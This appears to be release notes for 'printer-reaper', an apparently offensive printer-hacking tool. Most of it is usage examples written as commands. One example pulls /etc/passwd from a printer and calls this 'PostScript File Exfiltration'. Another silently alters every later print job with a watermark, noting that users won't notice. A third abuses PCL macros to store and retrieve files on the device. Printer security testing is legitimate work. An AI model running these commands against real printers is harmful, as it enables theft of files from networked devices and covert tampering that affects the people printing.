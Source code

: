 ### Updated Pages

- **Home.md** - Updated with v2.4.0 features
- **Commands-Reference.md** - Added PS and PCL commands
- **Examples.md** - Added PostScript examples
- **Attack-Vectors.md** - Added PS attack vectors

---

## 🎓 USAGE EXAMPLES

### Example 1: PostScript File Exfiltration

```bash
# Connect using PostScript
$ python3 printer-reaper.py 192.168.1.100 ps

# List files
192.168.1.100:ps> ls

# Download sensitive file
192.168.1.100:ps> get /etc/passwd

# Dump system dictionary
192.168.1.100:ps> dump systemdict

# Enumerate operators
192.168.1.100:ps> enumerate_operators
```

---

### Example 2: Print Job Watermarking

```bash
# Add watermark to all printed documents
192.168.1.100:ps> cross "CONFIDENTIAL - INTERNAL USE ONLY"

# All subsequent print jobs will have watermark
# Users won't notice until documents print
```

---

### Example 3: PCL Macro Filesystem

```bash
# Connect using PCL
$ python3 printer-reaper.py 192.168.1.100 pcl

# Upload file as macro
192.168.1.100:pcl> put document.txt

Uploaded document.txt as macro 1000

# List macros (virtual files)
192.168.1.100:pcl> ls

PCL Macros (Virtual Files):
Macro  1000      1024 bytes  document.txt

# Download macro
192.168.1.100:pcl> get 1000
```

---